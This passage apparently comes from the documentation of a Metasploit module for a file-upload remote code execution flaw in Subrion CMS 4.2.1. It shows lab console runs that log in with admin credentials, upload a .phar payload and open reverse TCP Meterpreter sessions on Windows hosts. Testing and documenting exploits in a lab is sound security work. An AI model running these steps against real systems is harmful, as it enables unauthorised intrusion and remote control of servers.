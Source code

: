 ```
OS          : Linux 3514d9412b2d 5.15.90.1-microsoft-standard-WSL2 #1 SMP Fri Jan 27 02:56:13 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter > 
```

### Subrion CMS v4.2.1 with XAMPP on Windows Server 2016

* Using PHP payload - default TARGET 0

```
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > run rhosts=192.168.100.103 lhost=192.168.100.1 username=admin password=123456 verbose=true targeturi=subrion/

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.100.103/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
[+] The target appears to be vulnerable. However, this version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: JV9hc6PcMf0fO9VF9uqEMkiWQvNBiredsOQuqYtb
[*] Logging in to Subrion Admin Panel at: http://192.168.100.103/panel/ using credentials admin:123456
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.100.103/subrion/uploads/ftxweolrol.phar
[*] Executing 'ftxweolrol.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.100.103
[*] Meterpreter session 2 opened (192.168.100.1:4444 -> 192.168.100.103:50048) at 2023-07-27 18:20:46 +0200
[+] Successfully executed payload: http://192.168.100.103/subrion/uploads/ftxweolrol.phar

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : WIN2019
OS          : Windows NT WIN2019 10.0 build 17763 (Windows Server 2016) AMD64
Meterpreter : php/windows
```

### Subrion CMS v4.2.1 with XAMPP on Windows 10

* Using PHP paylod - default TARGET 0

```
msf6 > use exploit/linux/http/subrion_cms_file_upload_rce 
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > set PASSWORD 123456
PASSWORD => 123456
msf6 exploit(linux/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.29.1/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
```